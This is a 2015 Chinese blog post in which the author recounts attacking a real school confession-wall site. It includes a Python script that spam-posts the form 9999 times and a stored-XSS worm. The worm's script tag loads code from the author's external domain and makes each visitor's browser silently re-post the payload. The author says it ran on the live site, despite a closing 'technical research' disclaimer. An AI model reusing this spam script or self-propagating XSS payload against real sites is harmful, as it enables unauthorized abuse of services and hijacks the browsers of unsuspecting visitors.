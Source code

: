 ```yaml
---
layout: testpage
title: "XSS让每个人都帮我表白 (无对象技术测试)"
date: 2015-02-06 09:22
comments: true
author: MewX
published: true
categories: [life]
---
```


　　最近觉得学校的表白墙很好玩，而且人气也挺不错。有表白排行之类的有趣功能，经常能看到人刷屏、刷排行之类的。  

　　14号不就是情人节了嘛，最近肯定是表白人气最旺的时段了，妥妥地来凑个热闹。  

　　但是光是自己表白没啥意思啊，比如说我看到系统挺渣，我就用python写了个脚本一直刷，刷了9999次对吧。（下面这段代码把action地址给隐去了 =。=）  

<?prettify lang=python?>
    def tryPost( receiver, sender, msg):
        postData = 'save=1&book_title='+urllib.quote(receiver)+'&book_name='
                +urllib.quote(sender)+'&book_body='+urllib.quote(msg)
                +'&submit=%E5%8F%91%E5%B8%83';
        #print(postData);
        req = urllib2.Request(BaseURL,postData);
        req.add_header('Referer', BaseURL);
        urllib2.urlopen(req);
        return;

    for i in range(0,9999):
        tryPost('P^2','Anonymous','You know who.');

　　  

　　效果图如下，直接给刷了9999次。  
<center><a href="{{ site.baseurl }}imgs/201502/01-9999-loves.jpeg" target="_blank"><img src="{{ site.baseurl }}imgs/201502/01-9999-loves.jpeg" style="max-width:100%; height:auto;"/></a></center>  

　　看代码的时候应该可以看到，这表单竟然提交了一个submit元素上去，真是用(sang)心(xin)良(bing)苦(kuang)啊，为后面XSS增加了难度呢！  

　　  

　　下面来XSS。之前说了这个表白留言系统超级渣啊，没有验证码、没有XSS过滤呢。我这边可以插入任意html代码的。  

　　现在我要做到的目标就是让每个访问这个页面的人帮我向target表白！  

　　  

　　**这部分的技术难点：**  

　　1. 嵌入XSS代码；  

　　2. XSS代码长度限制在200以内；（测试发现数据库的varchar长度是200字节，html进行POST的时候会进行转义编码即“汉字”会变成“%XX%XX%XX”）  

　　3. 因为一页可能会有多遍script载入，所以在载入多遍script的时候需要保证效果只有一次，不然就直接刷屏了，太没节操了；  

　　4. POST返回值要无视掉，不然会接收到一段alert代码，影响用户体验；  

　　5. 使用jQuery在网页顶部插入表白图片，这部分用纯JS的话很麻烦，默认只能appendChild添加在末尾；  

　　6. 因为有一个元素叫submit，所以不能使用form.submit()，否则会触发object is not an method错误；

　　  

　　提交的XSS代码：  

<?prettify lang=javascript?>
    <script type="text/javascript" src="http://mewx.org/js/xss.js"></script>

　　上面这部分代码已经压缩到最短了，本来准备在前面添加一段图片的，结果直接就超长了，图片添加挪到xss.js里面了。  

　　P.S. 刚刚push上来发现自己网页被挂上那个脚本了 \_(:3」∠)\_ 好吧。最后检查时少了个问号。。  

　　  

　　XSS.JS：  

<?prettify lang=javascript?>
    // 省略 jQuery 代码
    
    $(document).ready(function(){
        
        var obj = document.getElementById("LoveX");
        if(obj) return;
        
        $("body:first").prepend("<img id=\"LoveX\" src=\"http://www.dwz.cn/XXXXX\" style=\"width:350px;height:350px\"/>");
        //$(".LoveX").insertAfter("header");
      
        // Ajax
        var params = {save:1,book_title:'此处打码',book_name:'MewX',book_body:'<script type=\"text/javascript\" src=\"http://mewx.org/js/xss.js\"></script>',submit:'发布'};
        url = 'http://xxxxxxxxx.sinaapp.com/add_express.php';
        $.post(url,params,function(data){
            // ignore data
        });
    })

　　  

　　最终效果：如图，每个访问该页面的人都会帮我提交一份表白啦！~~
<center><a href="{{ site.baseurl }}imgs/201502/02-XSS-express-love.jpeg" target="_blank"><img src="{{ site.baseurl }}imgs/201502/02-XSS-express-love.jpeg" style="max-width:100%; height:auto;"/></a></center>  

　　不知到2月14号会有多少访问量呢？哈哈，刚刚看到有人和我的脚本对刷！！！  

　　  

　　----------  

　　  

　　补：以上纯属闹剧，表白对象与我也毫无干系 \_(:з」∠)\_ 各位借此能了解一下XSS便好。以上恶意举动仅作技术研究。  

